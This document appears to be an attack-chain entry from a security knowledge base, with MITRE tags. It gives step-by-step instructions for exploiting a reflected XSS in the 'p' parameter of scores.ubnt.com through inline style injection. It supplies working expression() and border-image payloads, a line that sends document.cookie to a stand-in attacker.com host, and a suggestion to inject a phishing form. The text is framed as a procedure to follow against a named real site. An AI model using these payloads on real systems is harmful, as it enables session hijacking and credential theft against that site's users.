

---
tags:
  - xss
  - reflected-xss
  - javascript
  - credential-theft
  - phishing
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
procedures:
  - '[[procedures/Identify-Vulnerable-XSS-Endpoint-in-Scores-ubnt-com]]'
  - '[[procedures/Test-XSS-Payloads-in-p-Parameter]]'
  - '[[procedures/Exploit-XSS-for-Credential-Theft]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
description: >-
  A multi-stage attack exploiting a reflected XSS vulnerability in
  scores.ubnt.com by injecting payloads into the 'p' parameter, which is
  unsanitized in a style attribute, allowing JavaScript execution in older
  browsers to steal credentials and cookies.
skill_level: intermediate
impact_level: high
id: 65768d31-bc3b-497f-87e9-bb6efcbb59ad
created_at: '2025-12-14T03:16:37.380Z'
updated_at: '2025-12-14T03:16:37.380Z'
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# Reflected XSS via Style Attribute in Ubiquiti Scores.ubnt.com p Parameter

Multi-stage attack chain demonstrating a complete reflected XSS workflow targeting scores.ubnt.com, where the 'p' parameter allows injection of arbitrary JavaScript via style attributes, bypassing prior fixes and enabling theft of session data in older browsers.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., older versions like IE for expression() support)
- Developer tools or proxy like Burp Suite for payload testing

### Target Environment

- Web platform
- Accessible via public internet to scores.ubnt.com/form.html
- No specific ports required beyond standard HTTP/HTTPS (80/443)

### Initial Access Requirements

- No credentials needed
- Direct network access to the target URL
- No prior access required

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Endpoint
procedure: [[procedures/Identify-Vulnerable-XSS-Endpoint-in-Scores-ubnt-com]]

**Objective**: Locate the endpoint and parameter susceptible to reflected XSS injection.

**Instructions**: Navigate to the target page and inspect the URL structure, focusing on query parameters. Examine scores.ubnt.com/form.html?uid=259&p=... to confirm the 'p' parameter is reflected into a style attribute without sanitization.

**Expected Output**: Confirmation that user input in 'p' appears directly in inline styles, e.g., 

**Success Indicators**:
- Parameter reflection observed in page source
- No filtering evident in style context

### Step 2: Test XSS Payloads
procedure: [[procedures/Test-XSS-Payloads-in-p-Parameter]]

**Objective**: Inject and validate payloads to achieve JavaScript execution via style properties.

**Instructions**: Append payloads to the 'p' parameter in the URL. For example, test in an older browser: scores.ubnt.com/form.html?uid=259&p=);xss:expression(alert(1));border-image:url(foobar). Observe if an alert pops up. Alternatively, try: p=);border-image: url(javascript:alert(1));content:url(foobar).

**Expected Output**: JavaScript alert(1) executes, confirming XSS.

**Success Indicators**:
- Alert or script execution triggered
- Payload bypasses any existing filters

### Step 3: Exploit for Credential Theft
procedure: [[procedures/Exploit-XSS-for-Credential-Theft]]

**Objective**: Leverage the XSS to steal sensitive data like cookies and credentials.

**Instructions**: Replace the alert with a payload to exfiltrate data, e.g., p=);xss:expression(document.location='http://attacker.com?cookie='+document.cookie);. This sends non-HttpOnly cookies to the attacker's server. For phishing, inject a form:  via similar style injection.

**Expected Output**: Data transmitted to attacker-controlled endpoint or fake form displayed.

**Success Indicators**:
- Cookies or inputs captured on attacker server
- Page modified to include phishing elements

## Attack Chain Summary

### Key Achievements

1. Identified and confirmed reflected XSS in style attribute
2. Executed JavaScript payloads in vulnerable browsers
3. Enabled credential theft and phishing due to missing HttpOnly flags

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01*
